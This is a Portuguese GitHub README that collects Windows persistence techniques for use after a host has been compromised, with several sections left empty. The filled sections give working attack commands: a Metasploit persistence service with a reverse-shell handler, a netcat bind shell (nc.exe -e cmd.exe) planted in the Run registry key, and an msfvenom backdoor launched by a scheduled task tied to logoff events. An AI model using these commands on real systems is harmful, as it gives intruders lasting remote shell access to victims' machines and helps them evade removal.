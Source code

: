 # Awesome Windows Persistence

![829c15633cef94444c681910dfedd23b](https://user-images.githubusercontent.com/67444297/198659100-fbdb0b32-38b0-4ff6-a5ab-7ae305cf51cc.gif)

**Técnicas e táticas para manutenção de persistência em um alvo explorado.**

Eu sou o Stux e estarei constantemente atualizando este repositório com novas técnicas para Windows Persistence!

**Obs: Todos os processos de persistência partem do princípio de que você já possui uma shell ou acesso ao ambiente**

## Sumário
 - [Persistence Service](https://github.com/Stuuxx/awesome-persistence#persistence-service)
 - [Persistence Registry](https://github.com/Stuuxx/awesome-persistence#persistence-registry)
 - [Netcat](https://github.com/Stuuxx/awesome-persistence#netcat)
 - [RDP](https://github.com/Stuuxx/awesome-persistence#rdp)
 - [Schtasks](https://github.com/Stuuxx/awesome-persistence#schtasks)
 - [Schtasks-Log Events](https://github.com/Stuuxx/awesome-persistence#schtasks---log-events)
 - [WMIC]()
 - [Wmi-Persistence](https://github.com/Stuuxx/awesome-persistence/blob/main/README.md#wmi-persistence)
 - [SharPersist](https://github.com/Stuuxx/awesome-persistence/blob/main/README.md#sharpersist)

### Persistence Service
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:
Essa técnica tem como objetivo criar um serviço persistente no windows explorado na qual executará diversas vezes o payload de conexão reversa.

Etapas:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;

Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**
```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)
- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;
```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)
Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.

Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)


### Persistence Registry
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Netcat
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:
Nessa técnica, iremos realizar o upload do netcat para o alvo e iremos modificar um registro para que o alvo execute ele, nos abrindo uma porta para conectar posteriormente quando necessário.

Etapas:
- Vamos realizar o upload do netcat para algum diretório do alvo.
```bash
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```
![nc1](https://user-images.githubusercontent.com/67444297/198689309-274f2c78-f4f0-45b0-b2e8-4eb9884615a9.jpg)

- Após realizado o upload, iremos modificar o registro para que o Netcat seja executado.
```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e C:\windows\system32\cmd.exe'
```
![nc2](https://user-images.githubusercontent.com/67444297/198689312-33e81bea-6fec-43e7-bb09-fbe4b3c3bfea.jpg)

- Agora, iremos verificar como ficou nossa modificação.
```bash
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc
```
![nc3](https://user-images.githubusercontent.com/67444297/198689313-1abd224e-cd03-4853-9958-65540a2cdb16.jpg)

Para prova de conceito, iremos dar um reboot na máquina explorada para que nosso ataque seja efetivado nos registros do sistema.

![nc4](https://user-images.githubusercontent.com/67444297/198689314-683654df-041d-453d-bec6-be6f419130ec.jpg)

- Após o ataque ser bem sucedido, vamos nos conectar na máquina explorada através do netcat.
```bash
nc IP PORTA
```
![nc5](https://user-images.githubusercontent.com/67444297/198689315-99ce1fe9-5608-4374-b861-b48f09492a57.jpg)


### RDP
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview: 


Etapas:


### Schtasks
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:


### Schtasks - Log Events
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Nesse caso, estamos criando uma tarefa que pode ser acionada em um log de segurança específico do Windows event. Ou seja, ID do event: 4634 (4634: event desconectado de uma conta). Quando um usuário faz logoff, então este event é gerado. Portanto, a tarefa agendada é executada assim que o usuário fizer login novamente.

Etapas:
- Vamos iniciar criando um backdoor via msfvenom.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=SEUIP LPORT=4444 -f exe > backdoor.exe
```
![Screenshot_1](https://user-images.githubusercontent.com/67444297/198754911-1b1001ce-e154-4982-8f9b-158cdc15d4e4.jpg)

- No meterpreter, iniciaremos a shell e criaremos a task através do schtasks setando o nosso backdoor.
```bash
shell
schtasks /Create /TN SessionOnLogOff /TR C:\Windows\System32\backdoor.exe /SC ONEVENT /EC Security /MO "*[System[(Level=4 or Level=0) and (EventID=4634)]]"
```
![Screenshot_3](https://user-images.githubusercontent.com/67444297/198754915-d0c88527-cc5e-4c89-8a71-df76edbc8bc6.jpg)
- Iniciaremos o multi/handler para receber a shell.
```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![Screenshot_2](https://user-images.githubusercontent.com/67444297/198754914-cfa45c52-0dea-41f2-a8cf-a60855680d89.jpg)

Para prova de conceito, iremos dar um reboot na máquina explorada para que nosso ataque seja efetivado e a task seja executada.
![Screenshot_4](https://user-images.githubusercontent.com/67444297/198754918-e532b2a5-337c-48b7-a08c-7c61862dac6c.jpg)

- Após o reboot, receberemos nossa shell.

![Screenshot_5](https://user-images.githubusercontent.com/67444297/198754920-67ffe450-596a-4dfc-8736-8e5eed3ca16e.jpg)

### WMIC
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:


### Wmi-Persistence
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:


### SharPersist
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Overview:

Etapas:


--------------------------------------------------------------------------------------------------------------------------------------------------------------------
## Ficou com alguma dúvida?
Sinta-se a vontade para entrar em contato comigo através de minhas redes sociais!
 - LinkedIn : [Eduardo Maragno](https://www.linkedin.com/in/eduardo-maragno/)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux](https://medium.com/@stux)
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
